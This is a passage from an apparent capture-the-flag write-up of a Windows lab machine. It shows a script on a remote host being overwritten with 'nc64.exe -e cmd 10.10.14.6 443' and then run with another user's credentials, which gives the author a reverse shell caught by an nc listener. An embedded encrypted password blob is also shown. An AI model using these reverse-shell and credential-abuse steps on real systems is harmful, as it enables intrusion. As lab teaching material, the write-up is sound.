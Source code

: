     You cannot call a method on a null-valued expression.
        + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
        + FullyQualifiedErrorId : InvokeMethodOnNull
        + PSComputerName        : ATSSERVER



Because `ConvertTo-SecureString` isn't defined in this profile, I can't
run it. It is interesting to note that I was able to run it from within
a script.

#### Modify Script

I've got access to `Get-Content` (`cat`) and `Set-Content` (`sc`), so I
can relatively easily create a new script. I could have it call `r.exe`
again (since I'm executing on the same box I'm already on), but I don't
want to drop out of my PowerShell session to start a new listener. I'll
upload `nc64.exe` to `C:\utils` and have the script call that:



    PS C:\Utils> Invoke-Command -ScriptBlock { ((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'C:\utils\nc64.exe -e cmd 10.10.14.6 443') | sc -Path ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred



Now the script creates a reverse shell to me:



    PS C:\Utils> Invoke-Command -ScriptBlock { cat ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    $securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
    $passwd = $securepasswd | ConvertTo-SecureString
    $creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
    Invoke-Command -ScriptBlock {C:\utils\nc64.exe -e cmd 10.10.14.6 443} -ComputerName Acute-PC01 -Credential $creds



I'll start `nc` and run it:



    PS C:\Utils> Invoke-Command -ScriptBlock { C:\users\imonks\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred



It hangs, but there's a shell at `nc`:



    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.145 49877
    Microsoft Windows [Version 10.0.19044.1466]
    (c) Microsoft Corporation. All rights reserved.
